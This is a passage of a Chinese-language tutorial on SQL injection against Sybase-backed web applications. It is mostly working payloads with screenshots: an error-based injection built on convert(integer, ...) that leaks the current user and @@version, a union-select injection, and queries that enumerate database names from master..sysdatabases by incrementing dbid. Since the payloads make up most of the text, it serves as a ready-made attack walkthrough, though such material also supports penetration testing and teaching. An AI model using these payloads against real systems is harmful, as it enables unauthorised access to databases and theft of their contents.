 ```
id=1 and exists(select * from master.dbo.ijdbc_function_escapes)

```

![enter image description here](http://drops.javaweb.org/uploads/images/1850f39434483649538dad6014f0b680af36c94a.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/cf55a2aaa016787b2891e5c7ce171f35d8874c29.jpg)

以报错方式注入时要注意，sybase是不支持不同类型数据直接相比较的（与MSSQL不同）：

```
id=1 and 1=user
id=1 and 1=convert(integer,user)

![enter image description here][28]

id=1 and 1=convert(integer,(select+@@version))

![enter image description here][29]

id=-1 union select 1,"",(select @@version)

```

![enter image description here](http://drops.javaweb.org/uploads/images/0e318b4a16034f3191b52ae0a5fa52afaef3c457.jpg)

列库（复杂版本）：

```
id=1 and 1=convert(integer,(SELECT MIN(ISNULL(CONVERT(NVARCHAR(4000),gJyQ.name),CHAR(32))) FROM (SELECT name FROM master..sysdatabases) AS gJyQ WHERE CONVERT(NVARCHAR(4000),gJyQ.name)>‘ ’)) 

```

列出第一个库master

```
id=1 and 1=convert(integer,(SELECT MIN(ISNULL(CONVERT(NVARCHAR(4000),gJyQ.name),CHAR(32))) FROM (SELECT name FROM master..sysdatabases) AS gJyQ WHERE CONVERT(NVARCHAR(4000),gJyQ.name)>’master‘))  

```

列出除master外的第一个库

![enter image description here](http://drops.javaweb.org/uploads/images/5c291124b89c7c7a33274ea0731bb53448ba4893.jpg)

列库（简单版本）：

```
id=1 and 1=convert(integer,(SELECT name FROM master..sysdatabases where dbid=1))   不断递增dbid的值

```

![enter image description here](http://drops.javaweb.org/uploads/images/152169603d5c4107178500b49a6a3376f8621601.jpg)

dbid是连续的数字，猜解起来很容易
